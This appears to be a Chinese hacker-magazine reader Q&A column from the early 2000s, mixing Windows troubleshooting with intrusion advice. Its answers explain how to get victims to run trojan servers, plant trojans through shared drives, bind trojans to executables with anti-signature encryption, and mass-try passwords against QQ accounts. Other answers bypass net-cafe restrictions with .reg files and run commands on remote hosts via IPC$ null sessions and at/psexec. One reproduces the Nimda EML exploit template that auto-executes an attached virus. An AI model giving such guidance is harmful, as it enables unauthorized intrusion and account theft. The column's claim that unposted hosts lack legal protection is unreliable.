答：一般来说 POP3 服务器，不是在域名前加上 POP，就是 POP3。你发一封信过去，然后用 FOXMAIL 来收，这个不行换另一个，哪个能收下来就是哪个了。

问：谁能告诉我有了 IP，如何进入该机？

答：仅仅知道 IP 还不行，知道 IP 相当于只知道了这个人的网络地理位置。你还需要让对方运行木马的服务端程序，这个服务端程序就好像是一个发射和接收器，接收你发出的指令，并按照你的指令工作，并将工作的过程和结果信息发送返回到你的机子上。

问：我有个问题想请教一下，怎么样使用画蝶呀，就是字典安装在那里？怎么安呀？

答：画蝶的密码文件是 `password.ini`，你也可以往里面写你认为有效的密码，或者干脆用你的密码文件，只要你把你的密码文件改名为 `password.ini`，并放到画蝶软件的同一个文件夹里就行了。很多人都提到过密码太少的问题，其实，这款软件的功能和我们以往所用过的软件的功能略有不同，过去我们是确定一个 QQ 号码之后，就用大量的密码去一个个地试它，这款软件的思路是，

## 菜菜问吧

就这几个密码，用大量的QQ来试密码，是倒过来的。所以，大家不要以为密码少了，密码少了没关系，你扩大QQ的覆盖范围呀，总会有QQ是在用这几个密码的。

问：我用飘叶v2.1顺利地找到了一台共享机。是否飘叶只能映射有共享的盘，而对没共享部分却无能为力。我想一定是有其他办法可以实现的，请教各位高手如何利用这个共享的盘看所有硬盘的内容？

又问：看了一下飘叶的网站，发现关于隧道v2.0的问题还不少。原来，它也只能实现映射共享硬盘的功能。如果该共享设有密码，还得先解密。

答：1、我记得飘叶v2.0好像自带有共享密码破解功能吧？2、如果是C盘共享的话，可在C:\WINDOWS\Start Menu\Programs\启动中放入一个木马类的软件，有了这个，还需要映射其他盘的共享吗？

问：请问动态IP和静态IP的区别？

答：简单地说，如果你在电信是专线上网，你的IP就是静态的，是固定的；你在内部局域网里分配的IP也是静态的和固定的，其他就是动态的！

问：怎样把木马的客户端捆绑照片或者其他小程序？

答：蔬菜工作室的一个作品，叫做“EXE捆绑机”，还可以加密（反特征码扫描），下载一个来试试，用法很简单！但是，不能和照片捆在一起，只能和“EXE”捆绑，你可以和“FLASH”动画捆在一起。

问：哪里有软件的注册码网站啊？

回答：http://crack001.bsina.com/ 注册码大观园；http://smallmin.126.com 小敏之家；http://www.xy.js.cn/ny/china 中文之家。

问：如果我中了木马，但我把它的启动项删除了，它还会起作用吗？还有如何能察觉别人给我的小东东有没有被捆绑？

答：现在的木马一般都会感染一些其他程序，比如写字板。这样的话，除非你把木马程序和写字板（Notepad）都删了，否则你即使删了启动项里的程序，只要你用过写字板，它还会继续运行。光靠眼睛和直觉是没用的，用一些病毒防火墙如金山毒霸等可以及时提醒你。

问：如何能进入网站上的网页目录，Telnet是什么？怎么用呢？

答：如果你知道FTP的用户名和密码，用CUTEFTP等软件就可以看到。

Telnet是通用的远程登录程序，一般Unix系统都有，至于如何用就要买一本网络管理的书看了。

问：西淮蔬菜大哥，你“牧马记”中说中木马的机器被打开了7306端口，那客户端用哪个端口控制木马啊？是不是也要用相应的端口，那样自己的机器不也相当于也中了木马一样吗？

答：既然木马开的是7306端口，自然客户端也就用这个端口进行连接了。控制端和服务端的功能不一样，服务端是不能控制控制端的。

问：我看很多破解器都用到黑客字典，怎么用？什么字典好？

答：因为人们通常采用某些英文单词、自己姓名的缩写、数字作为密码，所以，先建立一个包含巨量英语词汇和短语、短句、数字的可能的密码词汇字典，也叫“字典档”。常用的有词汇字典、数字字典和综合字典，还有一种是根据不同需要自制的字典，当然是用程序和工具来生成的。破解时用破解软件去一一尝试，直到找出正确的密码，或者将密码词汇字典里的所有单词、数字试完一遍为止。这种破解密码方法的效率比穷举法要高很多。大多数密码破解软件都支持这种破解方法，使用时指定字典就可以了。

编写没有错误、达到编写目的的字典都应该说是好字典，看你用得是否合适、运气好不好的不同了。

问：呆呆哥哥，什么是键盘幽灵啊？好玩吗？

答：键盘幽灵（KeyboardGhost）是一个专门记录键盘按键情况的黑客软件，它一点都不好玩。它可以运行在Win9x/NT/2000下。它的原理是这样的：Windows系统为了了解键盘输入的缓冲区，在核心区保留了一定数量的字节，其数据结构形式是队列。键盘幽灵就是通过直接访问这一队列来记录键盘上的一切——包括以变号形式显示的密码窗口中的符号，并在系统目录下生成一个名为KG.DAT的隐藏文件。对治方法是启动注册表，将[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunService]→KG.EXE这一键值删除，并将文件KG.EXE从Windows\System目录下删除，同时删除C:\KG.DAT这个文件。

问：在上网的时候怎么隐藏自己的IP啊？

答：理论上来说，隐藏IP是比较有难度的。要想不让对方刺探到我们的真实IP，一个行之有效的方法就是设置并使用具有防火墙作用的代理服务器（Proxy）。我们在通过代理服务器上网的时候，那些技术还不是太好的黑客通常就只能定位到代理服务器的IP，而无法获得我们的真实IP。

问：呆呆虫，网络监听是怎么回事？

答：网络监听工具本来是提供给管理员的一种监视网络的状态、数据流动情况以及网络上传输的信息的管理工具。当信息以明文的形式在网络上传输时，将网络接口设置在监听模式，便可以源源不断地截获网上传输的信息。网络监听可以在网上的任何一个位置实施，如局域网中的一台主机、网关上或远程网的端部解码器之间等。当黑客成功登录一台网络上的主机并取得这台主机的超级用户权限，想想当然很容易监听这台主机，那么使用网络监听将是最快捷有效的方法，它常常能轻易获得对其他方法很难截得的信息。由于它能有效地截获网上的数据，因此也成为网上黑客使用得最多的方法。网络监听有一个前提条件，那就是只能监听物理上连接属于同一网段的主机。因为不是同一网段的数据包，在网关就被过滤掉，无法传入该网段。

总之，网络监听常常被用来获取用户的口令。因为当前网上的数据绝大多数是以明文的形式传输，而且口令通常都很短且容易辨认。当口令被截获，则可以非常容易地登录另一台主机。

问：呆呆哥，在Windows 2000中进行碎片整理时，弹出“你需要有管理员权限”的对话框，无法进行整理，怎么办？

答：可能你不是以管理员账号登录计算机的，试试以管理员身份登录。

你也可以给任何一个账号指派管理硬盘的权限，方法是：进入“管理工具→本地安全策略→本地策略→用户权利指派”，然后双击“执行卷维护任务”，把需要添加的用户或者用户组添加进去即可。

## 果果虫问吧

问：我用Windows XP、FoxMail，我收的邮件中有用蓝色标示的超级链接如http://www.123.com/等，以前直接用鼠标点就可以打开默认浏览器IE并跳到相应网址。而现在点了之后就会打开记事本，并提示“文件名、目录名或卷标语法不正确”。请问如何改回来？

答：文件关联的问题可以这样解决：在Windows 98里可以在资源管理器窗口上单击“查看→文件夹选项”（Windows 2000/XP则是“工具→文件夹选项”），切换到“文件类型”选项卡，选中HTM、HTML文件类型，单击“更改”，然后选中关联程序即可（比如IE浏览器）。

问：如何隐藏密码文件？

答：在Win98中，用户设置的拨号上网等密码都是以.pwl文件的形式保存在Windows目录中。这样，一个侵入你系统的人是很容易找到该.pwl文件的。所以，应该把这个密码文件尽快隐藏起来。在C盘的Windows目录下找到并打开System.ini文件，在其中找到[Password Lists]项，将密码文件的存放路径改到刚才隐藏起来的驱动器下的目录中，这样你的密码文件就相对安全多了。

问：常见端口号及相应的服务有哪些？

- 21 FTP——文件传送（用CuteFTP等FTP软件维护网站用的就是该协议）
- 23 TELNET——远程登录（管理员和黑客远程控制系统的最基本手段）
- 25 SMTP——邮件发送（Outlook Express或FoxMail等邮件程序发Email用）
- 53 DNS——域名解析（实现域名和IP地址之间的转换）
- 80 HTTP——Web服务（最常用的为Internet Explorer等浏览器提供网页服务）
- 110 POP3——邮件接收（Outlook Express或FoxMail等邮件程序收Email用）
- ……

端口范围为0—65535，0—1024为系统使用，剩下的用户自己定义，所以聊天室软件和木马等使用的端口大多都大于1024。

问：什么是后门程序？

答：当一个训练有素的程序员设计一个功能较复杂的软件时，都习惯于先将整个软件分割为若干模块，然后再对各模块单独设计、调试，而后门则是一个模块的暗藏入口。在程序开发期间，后门的存在是为了便于测试、更改和增强模块的功能。当然，程序员一般不会把后门记入软件的说明文档，因此用户通常无法了解后门的存在。

按照正常操作程序，在软件交付用户之前，程序员应该去掉软件模块中的后门，但是，由于程序员的疏忽，或者故意将其留在程序中以便日后可以对此程序进行隐蔽的访问，方便测试或维护已完成的程序等种种原因，实际上并未去掉。这样，后门就可能被程序的作者所秘密使用，也可能被少数别有用心的人用穷举搜索法发现并利用。想想看，如果黑客发现了你的服务器正运行着有后门的软件，结果将会怎样？

问：我在用“广外幽灵”时怎么也生成不了幽灵。有几个问题向你请教。

- 1、它的服务器是SMTP.21CN.COM，我用SINA的信箱能不能收到？是不是非要用21CN的信箱？如果不能，那么SINA的SMTP是什么？
- 2、当我点击生成幽灵时，它出来一个打开的提示，确定后它生成一个41K的小程序，点击后却什么也没有，请问这是什么？
- 3、如果你有时间的话，请把使用广外幽灵的全过程详细地写下来。

答：1、原来发送邮件服务器用smtp.21cn.com是因为大家都在用，而且不需要发送邮件时进行身份验证。不管你用什么地方的信箱，只要成功发送，都可以收到。SINA的SMTP是smtp.sina.com.cn，但是现在所有的大网站发送邮件都需要身份验证（包括21CN的SMTP服务器），所以要找一个不需要身份验证的SMTP服务器才可以。

2、当你点击生成幽灵的时候，那产生的41K的小程序就是服务器端程序。你真的点击了这个小程序？恭喜你，你已经中了自己的木马了，哈哈，就是这。玩火者自焚了。赶快查杀吧。

3、关于广外幽灵的使用方法今后杂志会有介绍，但不赞同违法行为。

问：我看了上期杂志的“15秒内破解硬盘还原卡”这篇文章。但是我试了，为什么不行啊！而且我们学校的是“成都市华瑞科技公司”的还原卡，我怎么也找不到通用密码，而且第二种方法怎么也不行，是不是什么地方错了？

答：还原卡因厂商的不同和出厂时期不同，程序总会有不同的变化，因此通用密码未必全都有效，只针对一个时期同一个厂商出厂的有效。

问：呆呆哥，我是一个大一的新生，就在上学期我进了一次我学院的主机看了我的分数，后来我又进去过几次。我想问一问我的行为是不是有违法的举动了。

答：在未得到同意的情况下进入一台不属于自己管辖范围的主机是涉及违法的，但是中国的法律规定，没有法律声明的主机是不受法律保护的，所以如果你只是看一下自己的分数，并没有修改或破坏的话，你的行为不违法。

问：我的电脑装WIN2000 Server，现在不能正常关机。当选择“开始--关闭”后，机器重新启动。我在修改注册表时，改过的某项键值总在系统重启后自动修改回改前状态。有没有类似WIN98下的关机命令，如：C:\WINDOWS\RUNDLL32.EXE user.exe；ExitWindows，运行它直接关机？

答：你的电脑不能正常关机是因为高级电源管理没设置好。方法是：进入“电源选项”，把“高级电源管理”选项的“启用高级电源支持”勾去。

Windows 2000有一定的保护机制，如果因为你修改注册表而出现故障的话，系统会自动使用最后一次正常启动时的注册表来代替已经出故障的注册表，因此部分键值自动恢复正常。Windows 2000下似乎没有相应的关机快捷命令。

问：我家一开始上的是内猫，能用冰河2.2软件。但自从上了宽带以后就再也不能上了。点IP地址的时候，上面写发送已完成。但是没有看见对方的盘符，这是怎么回事？电信公司给我的ADSL MODEM是全向的QL1680，和别人的ADSL不一样的是不用PPPOE软件拨号，好像是在ADSL里有硬件的拨片吧。你说这是什么原因呢？如果我把ADSL换成猫，可不可以？它和分离器有关系吗（三根线的）？如果这两个都安装在我机器上可以吗？还有冰河里的访问口令是什么东西，有用吗？谢谢。

答：对方已清除了冰河的服务端。目前中国使用的ADSL有两种制式，使用PPPOE的需要虚拟拨号，而使用IPoA（IP over ATM）的则不需要拨号，类似于专线，直接接上电源就连在网上。

你的电话线路在申请安装ADSL的时候已经由电信局做过处理，一般情况下该线路是不可以使用Modem、ISDN、传真机等高频率设备。分离器是专门区分高频和低频线路的（电话为低频设备）。

冰河里的访问口令是为了自己的客户端不被他人利用而设置的，不知道口令是不可以访问该客户端的。

问：我在浏览网页的时候怎么才能知道我浏览的网页的IP地址？IE有时能看到可是就是一闪而过看不清楚，要用什么才能很清楚地看到我浏览网页的IP地址？我用过“IP猎狗”可是好像只是针对WWW开头的地址可以查，那剩下的没有WWW开头的该怎么弄呢？

答：每个网页都会放在自己的主机（网站）上，你知道该网站的网址就会知道该网页所在位置，比如www.xxx.com/abc.htm，那么abc.htm就放在www.xxx.com这个网站上，只要在“开始→运行”中执行“ping www.xxx.com”命令后得出来的IP地址就是该网页的IP地址。如果不是WWW开头的也适用，比如“ping aa.xxx.com”都可以。

问：今天我在一个小书店发现了你们出的书，看了之后我毫不“忧郁”地买了下来。拿回家研究，发现里面的内容还不错，不过还是有很多不懂的地方——我对IP很“感冒”。

netxray软件我用了2年还是不能参透其中的奥妙！希望呆呆虫大哥能给我有所指教。非常感谢！

答：这位朋友不要“忧郁”，也不要“恐慌”，对于一种东西“感冒”是好事。

netxray的功能介绍比较详细，具体说明在http://xexploit.css.com.cn/aqjs/content/netxray.htm

问：我有一台PC装的是Windows 2000 Professional，因为长时间没用，我把administrator的密码给忘了，只知道一个本地用户名和密码。我现在请您教我如何把administrator找出来！

答：三个方法：1、用恢复盘启动2000。2、重装Windows 2000。3、去下载一个名为Windows 2000/NT Key的软件或类似软件来获得密码。

问：为什么我在网吧下载的时候，会出现一个对话框写着“当前安全程度不能下载”，这个怎么办呀？

答：有的网吧安装过一些网吧管理软件，对下载进行了限制。因为各种网吧管理软件的使用方法不同，所以破解方法也不一样。如果只是想下载的话用以下办法：

同时按住键盘上的“WIN”键（飘着微软小旗的那个键）和“D”键，就会刷新桌面。在美萍下的桌面实际上是美萍指定的一个目录，而原桌面则被隐藏了，刷新是对原桌面的刷新，只要你不切换其他窗口，“我的电脑”等将会一直存在于桌面之上。你要做的是：打开“我的电脑”，然后再点“向上”，就可以把桌面以窗口的形式打开了（因为驱动器盘是被屏蔽掉的）。当我们打开“我的电脑”却将什么都看不见，此时你要做的是新建一个文本文档，输入这么几行：

```text
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer]
"NoDrives"=dword:00000000
```

再另存为随便一个REG文件就可以了，之后你要做的就是导入它。（理解的话手工改它也行。）等你再次开机时打开“我的电脑”就会看见那可爱的C盘等了。其实以上是让驱动器盘恢复回来啦！当然如果不想有美萍也行，只要输入如下内容并存为REG文件就可以了：

```text
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Mpsoft\Smenu]
"exitpassword"="1"
"setuppassword"="1"
"quitpassword"="1"
```

继续导入它，重启后你就放心大胆地退出美萍了，此时它的密码可是十分没难度的。

以上是对于初级限制（不限制导入reg文件）的解决方法，如果采用了中级或高级的限制，请看杂志的专门介绍。

问：什么是“con”漏洞，怎么用，怎么防范？

答：该漏洞全称为“Windows 9X的/con/con设备名称解析漏洞”，针对的是98/95系统。过程为请求访问系统上一些包含设备名的非法路径，这将导致Windows 9X崩溃。当Windows解析这些路径时，内核的溢出导致整个系统出错。这时你只有重启系统才能恢复正常，没有其他选择。

发现有五个设备或设备驱动程序可以使系统崩溃。它们是：CON、NUL、AUX、CLOCK$、CONFIG$，其他的设备如LPTx和COMx则不行。

把这些组合起来形成一个路径，如：CON\NUL、NUL\CON、AUX\NUL，只要请求成功，Windows系统将崩溃。

微软相关补丁及说明文件在：http://www.microsoft.com/technet/Security/Bulletin/ms00-017.asp 安装相应系统补丁就可以了。

问：1、如果我能成功地用空连接连接对方主机，可为什么不能通过“at \\ip\time net start telnet”来打开对方的Telnet服务呢？还非要通过srv.exe来打开呢？而且我执行copy命令时，总是很久都不显示成功。我的机器是XP。

2、在用3389漏洞渗透时，将权限提升为管理员，不能打开对方的Telnet服务，显示有1069错误，“用户未登录”，这是什么原因呢？

3、好像用nbtstat得到的是对方的NetBIOS名（主机名），而不是现在的用户名，那请问我用空连接时，“user:”应该填对方的主机名还是现在的用户名？好像我用这两种都成功了。除了用finger外，还有什么命令可以显示对方现在的用户名呢？

答：1、使用srv.exe是打开一个一次性的shell，这样你才能上传相应文件。否则你不可能像在使用自己机器一样用“net start telnet”打开永久性Telnet服务，使用copy命令必须已经在自己文件相应的目录下。但是如果对方禁止管理员共享或者已经删除了两个默认共享，那么你的指令将不会有结果。

2、创建一个管理员账户，然后用该账户登录才可以使用。

3、user后面应该填用户名，你所说的情况可能是主机名和用户名相同。目前只有使用finger才可以看到现在登录的用户，一些软件其实也是利用finger的功能，但是如果对方没有打开finger服务的话，finger指令将无法连接。

问：“文件关联”和“文件捆绑”是什么？应该怎样把木马捆绑到软件中去？

答：比如你有一个.doc文件，如果双击该文件是用Word打开的话，那么表示该文件是和Word关联的。

文件捆绑是将两个不同程序结合成一个文件，运行该文件时

## 呆呆虫问吧

按先后顺序运行这两个不同的程序。

目前的文件关联木马和文件捆绑木马，其实都是把自己伪装成一个正常的程序或文件，让你不知不觉就放松警惕来运行。

Aldoy、PE Bundle 和 EXE 文件捆绑器等软件都可以实现 exe 文件捆绑功能。

问：如果我知道了一个网站的用户名和密码，请问有哪些方法进入该网站呢？另外，我用的是 Windows XP 登录密码，我给忘记了，有什么办法解决呢？

答：如果是 Unix 系统打开了 Telnet 服务的话，直接使用用户名和密码 Telnet 上去就可以了；如果是 SSH 服务，你需要到 www.ssh.com 下载 SSH Client 软件，使用方法和 Telnet 类似。

如果是 Windows 2000/NT 系统，开了 3389 终端服务的话，可以通过终端服务客户端连接，直接输入用户名和密码即可；也可以通过建立空连接等方法进入。

对于忘记密码的解决方法，我上面的问题已经有了解释，最好使用恢复盘恢复。

问：“我想知道成为黑客是不是要掌握某些特定的知识呢？对计算机语言有要求吗？”

答：其实要做一个真正的黑客需要掌握很多的知识，一般而言不会比一个网络管理员需要的知识少，比如至少需要了解 TCP/IP 协议的原理等，对计算机语言的了解最低是要熟悉 C 语言，因为很多程序都是 C 语言编写的。

问：在我用 C 语言编程序时，产生了一个错误文件，在删除它时，Windows 提示该文件的删除路径不对，无法删除。然后从那以后，我只要做“清空回收站”的操作，它都会蹦出个错误信息提示：“***.文件路径不对，无法删除。”但是回收站的文件已经被清空了，每次清空时，虽然不影响我的操作，但是总蹦出个错误提示，让我觉得很烦，怎样才能删除它呢？

答：你可以开机引导到 MS-DOS 模式，先去除回收站的系统、隐藏属性（用“attrib -r -s -h”命令），然后用“deltree”命令删除回收站文件夹（Recycle Bin），然后重新启动机器，Windows 会自动重建回收站，你的问题也会获得解决。

问：我怎么知道我的 IP 地址是否为静态的？

答：最简单的方法是先查看 IP，重启电脑后再次查看 IP，若没有变就是静态的，反之是动态的。

问：什么是暴力破解？

答：就是尝试每一种可能性，直到找出密码。从一个破解者的观点来看，这是非常耗费时间的，但如果有足够的时间和强有力的 CPU 的话，终会出现结果。现在大部分的暴力破解工具都支持许多选项，诸如规定密码的长度、使用哪些字符等。

问：我的电脑是 Windows 98，我不在的时候我不想别人随便使用，我设了密码，可别人开机后点“取消”仍然可以用。怎么才能做到啊？要简单一点的。

答：你可以在每天离开系统前做一下修改：在“开始”－“运行”里输入“regedit”，然后按“确定”，打开 Win98 注册表，导出注册表做一个备份。之后在“HKEY_USERS\.Default\Software\Microsoft\Windows\CurrentVersion\Run”中点击鼠标右键，选择“新建”－“字符串值”，将该字符串值命名为“你是非法用户吧？哈哈”，最后将该键值设为“RUNDLL.EXE user.exe,exitwindows”。这样，当不速之客想要“光临”你的 Win98 系统时，电脑将会执行自动关机操作。你需要用的时候启动时进入“安全模式”导入你备份的注册表文件就可以了。

问：怎么用汉字做密码啊？

答：可以先把汉字打出来然后用 Ctrl+C 复制，然后按 Ctrl+V 把密码复制到密码栏中，一般的可以这样，有一些特殊的好像不行。

问：有时候我的电脑上突然出现一些错误信息，一大堆字，屏幕也变色了。我想记下来查看查看，用笔抄得手都软了，有什么办法直接把那些错误的信息直接记下吗？

答：如果你是在纯 MS-DOS 模式下，把打印机插上，直接在键盘上按 Print Screen/SysRq 键就能直接把屏幕上的字都印出来了！或是你再跑一次指令，然后把那指令的错误信息都转到文件里，如：`程序.exe > err.txt`，然后会有一个 err.txt 的文件生成，那就是你想要的了。如果你是在 Windows 下运行的，也可以按 Alt+Print Screen/SysRq，然后打开画板程序，复制保存就行了，这样就生成了一个你要的 .bmp 文件。

问：我的电脑被人用了什么东西弄得死机，是网上的人，我该怎么办？

答：去下载一下补丁包或是装防火墙，天网的个人版就不错，还有其他的防火墙工具，如 LockDown 2000 等。

问：我上网密码被盗用了怎么办？

答：马上给你的 ISP 打电话寻求帮助，然后学得聪明一点儿，不要把密码存在电脑中，用查木马的软件查一下本机，看有没有中木马程序；如果有，就赶快杀掉。如果没有，就要小心，害人之心不可有，但防人之心不可无。

问：UNIX、Linux、Windows 这三种操作系统有何不同？

答：Windows 可能就是你现在正在使用的操作系统，因为目前国内绝大多数家庭和个人用户都用这个。如果你已经在用 Linux 或 UNIX 的话，你就不会这样问了。Linux 是一个诞生于网络、成长于网络且成熟于网络的奇特的操作系统。由于它是一个类 UNIX 的操作系统，完全遵从 UNIX 的 POSIX 标准，而且它的发展远远优于一些著名的 UNIX 版本，只要一台 386 以上的 PC 机就能运行了，所以也是学习 UNIX 的一个最适合的版本。UNIX 是一个 32 位或是 64 位的非常方便的多用户、多任务的操作系统，具有完整的 TCP/IP 客户和服务器套件。UNIX type 的 system 有很稳定的特性，很少死机，且效率高，Internet 上的服务器多数是用 UNIX 的。但是 UNIX 版本繁多，相互存在不兼容的问题。如果想知道得更多，可以在网上找详细的资料。

问：我从外面主机上下载了 PASSWD 文件，为什么不能解出密码？

答：原因有很多。1、你下载下来的是 shadow 过的密码档；2、你的解码工具为空；3、你的字典档中没有这类密码字符串。现在绝大多数的主机对密码都有做过 shadow 了，可以说是 10 台里有 10 台是这样做的，简单地抓 PASSWD 密码档、做 root 已经成为历史了。

## 采采曾闻吧

上也是时有发生的，有时我用其它软件明明看到对方的服务端进程，但就是连不上。

问：什么叫半打开的端口扫描？

答：TCP SYN 扫描，这种扫描方法又被称作“半开放扫描”，因为扫描过程中并没有建立完整的 TCP 连接。初始化连接时，Client 向 Server 目标端口发送 SYN 包，如果收到 Server 返回的 SYN/ACK 包，则说明目标端口是开放的，这时候 Client 不会继续返回 ACK 以建立连接，而是发送一个 RST/ACK 包，以重置发起的这次 TCP 连接；如果 Client 收到的是 RST/ACK 包，则说明目标端口并未开放（在监听）。其优点是比 TCP Connect 扫描更隐蔽，Server 端可能不会留下日志记录。其缺点是要求操作者具有管理员权限（因为要定制自己的 TCP 报头）。

问：如何去找一个网站的真实 IP？

答：一般情况下进入 DOS ping 网址，最简单。用 IP-Tools 2000 这个扫描器，输入网址就知道 IP 了。

网站的真实 IP 一般来说是它的邮箱 IP，你可以试着 ping mail.xxx.com 来看它的地址。也可以装一个天网，然后打开 IE 访问该网站，再看天网记录的方法。

问：WIN2K 下有没有 MSCONFIG？是改成其它什么了吗？

答：WIN2K 下没有 MSCONFIG，要用可以拷贝一个 XP 的 msconfig 来用，放在 winnt/system32 目录下，点击数次后 msconfig 就出来了。

问：我用“追捕”经常发现别人的主机是开放 NETBIOS 的，请问这是什么用的？

答：开放 NetBIOS 也就是开放 139 端口，可以利用这个端口连接别人的机器。

问：我用木马克星查机器的时候老是提示“发现木马：ati2evxx.exe”在 winnt 下的 system32 文件夹中，删又删不掉，这到底是个什么玩意啊？

答：看看它是不是在进程里，如果在，先关了再删；也可以把启动项都去掉，不加载多余的启动项后再删，退出系统到 DOS 方式删。不知道那是什么玩意，估计是个坏家伙。

问：我用的是 Win98，NetBIOS 这个东西怎么样才能关掉它呢？

答：首先，打开控制面板，进入“网络”对话窗。在配置表中，查看列表中是否已有 NetBEUI 组件，如果有，则直接跳过下一段。如果在列表中没有 NetBEUI 组件，则先点击“添加”按钮，在“安装新的网络组件类型”列表框中，选择“协议”一项，再次点击“添加”。

在“网络协议”对话窗中，选择 Microsoft 的 NetBEUI；然后插入 Windows 安装盘，点击“确定”即可。回到“网络”对话窗，在网络组件中选择“拨号适配器”，点击“属性”，在“属性”对话窗中选择“绑定”按钮，将除 TCP/IP 之外其它协议的复选框里的小勾清除掉。

最后，再次回到“网络”对话窗，选择 TCP/IP 协议，点击“属性”。这时有可能会弹出一个警告窗口，不用理它，直接点“OK”就行了。进入 TCP/IP 的“属性”窗口后，选择“绑定”，将所有网络协议复选框内的小勾去掉，点击“确定”。这时 Windows 会提示你至少应该选择一种协议，仍然不用理它，点击“No”，关闭窗口。重新启动你的计算机，这样，你计算机中的 NetBIOS 功能就已被关闭了。这样一来，NetBIOS 已从你计算机的 TCP/IP 协议中去除。当然，最好检查一下是否成功。回到“网络”对话窗，选择 TCP/IP 协议，点击“属性”，在“属性”窗口中点击 NetBIOS 栏；这时，你会看到“我希望在 TCP/IP 协议中开启 NetBIOS（I want to enable NetBIOS over TCP/IP）”一项，该项前面的复选框应该没有打勾。现在，你就可以放心地在网络中漫游，而不必再担心有人会通过 NetBIOS 入侵你的电脑了。

问：我用 X-SCAN 扫描后得到一个 IP 的高级权限用户名密码！然后建立一个 IPC 的空连接！！输入命令为 `net use \\ip\ipc$ "" /user:"administrator"` 后，电脑说我系统“出错”，找不到网络名字，可是，我在网络邻居那里可以看到对方的共享资源，而且，建立共享资源的时候，输入的密码也是正确的，而且，我在 W2K 内修改他的用户密码也可以，但是就是不能登录上他的计算机，请问，这是什么问题呢？

答：这一般是由于对方机器没有打开 ADMINS 共享，或系统目录（C:\WINNT）的共享名不是“ADMINS”造成的，如果没有共享就打开它，若是名字不符合手工改正，方法见下：

对于 Windows NT 系统：
“开始”－“程序”－“管理工具”－“系统策略编辑器”，选择下拉菜单“文件”－“打开注册表”，选择“本地计算机”－“Windows NT 网络”－“共享”，将“创建隐藏的驱动器共享”和“创建隐藏的驱动器管理共享”选中。

对于 Windows 2000 系统：
“开始”－“程序”－“管理工具”－“计算机管理”，选择“系统工具”－“共享文件夹”－“共享”，若 ADMINS（对应 C:\WINNT）没有创建，若名字不符合就改正。

问：我连接的那台机器没有删除共享，可是我还是不能成功 copy，虽然空连接成功了！有人告诉我，映射对方的系统目录后可以像开了 telnet 端口一样执行本地命令，是吗？
对方开了 21、25、110 端口怎样入侵，我发现我的机器上也开着的啊，如何解释呢？
往别的机器上发消息时，怎样才能不显示自己的机器名？（net send）

答：映射对方的系统目录后并不能像开了 telnet 端口一样执行本地命令，但可以实现以下功能：

- 远程注册表管理：运行 regedit，“注册表”－“连接远程注册表”，输入对方的计算机名或 IP 地址即可自由管理。
- 远程计算机管理：“开始”－“程序”－“管理工具”－“计算机管理”，选择“连接到另一台计算机”，输入对方的计算机名或 IP 地址即可进行管理。
- 在对方计算机上执行命令：若对方的计划任务服务开放的话，使用 at 命令即可，格式为：`AT \\[computername] time "command"`；若没有开计划任务服务的话，可以使用免费工具 PSEXEC，可以从地址 http://www.sysinternals.com/ntw2k/freeware/psexec.shtml 下载。
- 查看对方的共享磁盘和目录：例如查看对方的系统目录 C：`\\>dir \\10.0.2.210\c$\winnt`。

至于如何利用 21、25 和 110 端口入侵，取决于对方的服务程序是否有安全漏洞了。而由于 net send 是通过 139 端口来实现信息传递的，只是通过系统本身实现的，所以除非自己编写发送程序外，想不显示自己的机器名是很困难的。

问：我听说 E-MAIL 存在一种漏洞，只要入侵者发一个 HTML 格式的电子邮件给你，你一旦查看里面的 JS 代码就会执行并改变你的邮件转发设置，将你的电子邮件全部转发给黑客。请问真的有这种漏洞吗？如何利用呢？能教我吗？

答：你说的应该是 IE 的 EML 漏洞，这个漏洞曾经被 Nimda 病毒应用，主要代码如下：

```text
Content-Type: multipart/related;boundary="1"

---1
Content-Type: multipart/alternative;boundary="2"
---2
Content-Type: text/html
Content-Transfer-Encoding: quoted-printable
<iframe src=3Dcid:THE-CID height=300 width=3D0></iframe>
---1
Content-Type: audio/x-wav;name="virus.exe"
Content-Transfer-Encoding: base64
Content-ID: <THE-CID>
TVq...AAA
```

其中 TVq...AAA 之间的代码是病毒体 virus.exe 的 Email 格式 base64 编码，当你把该文件作为 Email 发送给对方后，对方只要查看信件，virus.exe 就会自动执行，当然这主要对于没有打安全补丁的 IE 有效。

问：我在每次上网时都在天网防火墙中发现一直有一个“system”在连接 137、138 和 139 端口。请问我如何才能解决这个问题？

答：这是系统自身开的端口，主要是用于 NetBIOS 共享，来实现文件和打印机的网络共享的。你注意，你的网上邻居也是通过它来实现的，若你确定不需要共享的话，删除 NetBEUI 协议即可关闭这些端口，一旦删除也将无法使用网络邻居和网络打印，删除方法如下：运行“开始菜单”→“运行”→ `RegEdit.exe`，找到下面的系列：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VxD\VNETBIOS`，将“VNETBIOS”项删除即可。当然，若你还打算将来恢复的话，建议最好把里面的内容记录下来，尤其是各项的类型，当需要的时候再手工建立。

问：我在本单位的局域网中新添了两台机子，该局域网是大约有一百多台电脑的内网，服务器有多台，均为 Win2000 Server，终端为 Win2000 Pro，不提供 Web 和 Telnet 服务，FTP 提供 SQL 服务。本人新添的两台机子可以通过网上邻居相互看到，但单位局域网的机子仅能看到 3 台。在命令提示符下通过 net view 可以看到网上邻居中所有电脑的名称，但用 ping 只能看到新添的电脑的 IP。是否我看到的只是路由？到底是什么原因？本人所添电脑一台用 Win2000 Server，另一台用 Win2000 Pro，如何能通过本地电脑查到原网中 IP 设置？并与之连通？

答：通过“网络邻居”－“整个网络”－“Microsoft Windows 网络”即会看到网络上所有的域，联网的计算机都是分布在这些域中，默认为 workgroup。若你看不到某些计算机的名称，则可能是对方机器的 NetBEUI 协议没有安装、设置正确，或者安装有防火墙软件，改正即可。net view 的常用方法如下：

- 查看自己所在域的计算机列表：`C:\>net view`
- 查看网络中所有的域列表：`C:\>net view /domain`
- 查看网络中指定域 workgroup 中的计算机列表：`C:\>net view /domain:workgroup`

在你的电脑还没有连接到网络中，就是无法访问网络中其他计算机的时候，自然无法查看网络中的 IP 配置情况，也就不能够连通。只有先查看网络中其他计算机的配置再设置自己的网络参数，大多情况下咨询网络管理员即可。

问：在入侵后，用 net user 建立了用户，那以后怎么登录到上面呢？

